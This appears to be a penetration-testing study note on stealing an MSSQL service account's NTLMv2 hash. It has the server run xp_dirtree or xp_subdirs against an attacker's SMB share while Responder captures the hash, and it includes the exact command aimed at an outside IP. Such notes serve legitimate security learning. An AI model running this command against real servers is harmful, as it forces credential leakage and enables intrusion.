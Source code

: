 ```yaml
---
tags:
  - Enumeration
  - TCP
  - MSSQL
  - Concepts
---
```


We can also steal the MSSQL service account hash using `xp_subdirs` or `xp_dirtree` undocumented stored procedures, which use the SMB protocol to retrieve a list of child directories under a specified parent directory from the file system. 

When we use one of these stored procedures and point it to our SMB server, the directory listening functionality will force the server to authenticate and send the NTLMv2 hash of the service account that is running the SQL Server.

1. Start [[1. Responder|Responder]]
2. Run:
```cmd-session
EXEC master..xp_dirtree '\\10.10.110.17\share\'
```
